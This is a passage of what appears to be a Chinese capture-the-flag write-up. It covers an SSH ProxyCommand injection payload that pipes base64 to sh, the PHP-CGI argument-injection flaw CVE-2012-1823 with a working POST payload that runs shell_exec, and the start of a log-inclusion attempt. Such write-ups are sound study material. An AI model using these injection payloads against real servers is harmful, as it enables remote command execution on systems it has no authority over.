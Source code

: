 ```html
hostname=x+-oProxyCommand%3decho%09(要执行命令的base64)|base64%09-d|sh}a&username=admin&password=admin
```

---
# 313(CVE-2012-1823)-PHP-CGI
[CVE-2012-1823](https://www.freebuf.com/articles/web/213647.html)

>这个漏洞简单来说，就是用户请求的querystring（querystring字面上的意思就是查询字符串，一般是对http请求所带的数据进行解析，这里也是只http请求中所带的数据）被作为了php-cgi的参数，最终导致了一系列结果。



漏洞影响版本 :
- php < 5.3.12 
-  php < 5.4.2

漏洞利用
       
>cgi 模式下有如下可控命令行参数可用：
```
  -c 指定php.ini文件（PHP的配置文件）的位置
  -n 不要加载php.ini文件
  -d 指定配置项
  -b 启动fastcgi进程
  -s 显示文件源码
  -T 执行指定次该文件
  -h和-? 显示帮助
```

测试：

-s显示源码

![](https://img-blog.csdnimg.cn/20210415233235531.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
Payload：

```
POST /index.php?-d+allow_url_include%3don+-d+auto_prepend_file%3dphp%3a//input

<?php echo shell_exec("cat /somewhere/fla9.txt"); ?>
```
![](https://img-blog.csdnimg.cn/20210415233341569.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

---
# 314(PHP_SESSION_UPLOAD_PROGRESS文件包含)

Php版本为7.3.22，说了不算是cve，而且把 : ban了

有个include，尝试日志包含
路径：/var/log/nginx/access.log

![](https://img-blog.csdnimg.cn/2021041523344524.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
